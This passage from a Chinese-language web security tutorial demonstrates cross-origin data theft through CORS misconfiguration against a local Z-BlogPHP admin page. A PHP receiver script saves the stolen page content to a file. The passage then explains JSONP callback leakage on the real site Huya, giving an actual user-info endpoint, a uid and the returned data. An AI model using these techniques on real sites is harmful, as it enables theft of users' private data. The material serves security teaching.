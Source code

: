 ```plain
这个代码的意思是请求http://localhost:8107/zb_system/admin/index.php这个页面，把页面的内容发送给http://localhost:8107/cors1.php，cors1.php去接受这个页面资源。

cors1.php内容：

<?php

$file = fopen("secrect.html", "w+");
$res = $_POST['z0'];
fwrite($file, $res);
fclose($res);
?>
访问http://127.0.0.1:8107/cors.html
```

![1649118875974-417aa83a-73ee-4d35-9934-771f802c1589.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133924942-1139136099.png)

```html
会在当前目录生成一个secrect.html，然后这个secrect.html就是http://localhost:8107/zb_system/admin/index.php页面的资源。
访问：http://localhost:8107/secrect.html
```

![1649119217357-52b60f7c-b1c5-447e-b0d4-16ae24b92411.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133924745-1842903714.png)

- JSONP回调跨域-某牙个人信息泄露

------

```html
复现步骤：
1、登录某牙找到回调有敏感信息
2、本地搭建访问页面跨域调用URL
3、访问本地页面可获取当前某牙信息

产生原理：
支付接口
调用支付宝官方接口来判断是否支持成功
自己的网站域名是支付宝官方的域名吗？不是，属于不同源，不符合同源策略

除了支付接口，类似的登录接口等一系列都是这种回调。

大型网站这种同源策略有没有？（肯定有）
看数据包里面哪些有回调，看数据包有没有回调信息，看回调里面的敏感信息进行获取。

搜索callback，点击Preserve log
```

![1649121193236-2db24edc-37f7-4022-94c9-276bcafb4f93.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133924609-2129808532.png)

```html
在数据包中点击response（这个意思就是相当于访问了这个地址，然后有一些回调信息）

当访问个人资料的时候：访问地址：https://user.huya.com/user/getUserInfo?callback=jQuery17205956628992364452_1649121318647&uid=1259515769956
回调信息：jQuery17205956628992364452_1649121318647({"code":200,"data":{"uid":1259515769956,"avatar":"https://huyaimg.msstatic.com/avatar/1098/f5/f1d0e63d36c8ce1eb1e428c6306173_180_135.jpg?1565133598"},"message":"请求成功"})

其中https://huyaimg.msstatic.com/avatar/1098/f5/f1d0e63d36c8ce1eb1e428c6306173_180_135.jpg?1565133598这个就是头像地址
```
